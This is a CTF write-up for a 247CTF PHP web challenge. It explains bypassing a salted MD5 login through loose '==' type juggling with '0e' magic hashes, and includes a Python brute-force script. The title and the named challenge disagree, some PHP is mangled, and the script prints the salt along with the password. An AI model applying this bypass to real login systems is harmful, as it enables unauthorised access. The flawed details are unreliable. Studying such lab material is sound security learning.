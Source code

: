 # COMPARE THE PAIR (Web)

## Intro  
This is my write-up for the Web challenge "Secured Session" on the CTF site 247CTF.com.

## Challenge Details  
The challenge involves finding a way to bypass the login logic using something related to `md5`. 

## Steps to Solve

### 1. Access the Application  
Start by accessing the web application provided for the challenge.

### 2. Analyze the Provided PHP Code
php
<?php
require_once('flag.php'); $password_hash = "0e902564435691274142490923013038"; $salt = "f789bbc328a3d1a3"; if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){ echo $flag; } echo highlightfile(_FILE, true); ?> ```

The code takes the $salt and concatenates it with our $password input, then md5 hashes it to compare with the $password_hash.

We have no information about what the password might be, and brute-forcing it could take a long time.

The vulnerability occurs in the == comparison.

### 3. Understanding the Vulnerability
In PHP, the comparison operator == checks two values for equality, performing type juggling. This means PHP attempts to convert the values to a common type before making the comparison.

Key Points About == in PHP:
Type Juggling: PHP automatically converts operand data types when using ==. For example: php if (5 == "5") { echo "Equal"; } Here, "5" (a string) is converted to an integer, so the comparison returns true.

Loose Comparison: == is known as a "loose comparison." For instance: php if (0 == false) { echo "Equal"; } In this case, 0 is equivalent to false, returning true.

Common Pitfalls:

Comparing different types can yield unexpected results: php if ("0" == false) { echo "Equal"; } Here, the string "0" is treated as false, leading to a true comparison.
Additionally, the format of $password_hash resembles a large number starting with 0e.... When 0e1234 is compared using ==, PHP treats it as the number 0:

if ("0e1234" == 0) {
    echo "Equal";
} else {
    echo "Not Equal";
}
Output: "Equal"

### 4. Exploiting the Vulnerability
The vulnerability is clear: we need to find a password such that when concatenated with $salt, its md5 hash generates a string that appears like a large number (starts with 0e followed by digits).

Here's a Python script to help with this:

from itertools import product  
import hashlib

for x in range(0, 10):
    for combo in product("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", repeat=x):
        result = hashlib.md5(("f789bbc328a3d1a3" + ''.join(combo)).encode()).hexdigest()
        if result.startswith("0e") and result[2:].isdigit():
            print("f789bbc328a3d1a3" + ''.join(combo))
Any resulting password can be sent to the server as ?password=xxxxxx. Finally, we can retrieve the flag!


### Resources 
https://www.php.net/manual/en/language.types.type-juggling.php
https://github.com/abhaynayar/obsidian/blob/master/labs/web/247ctf.md
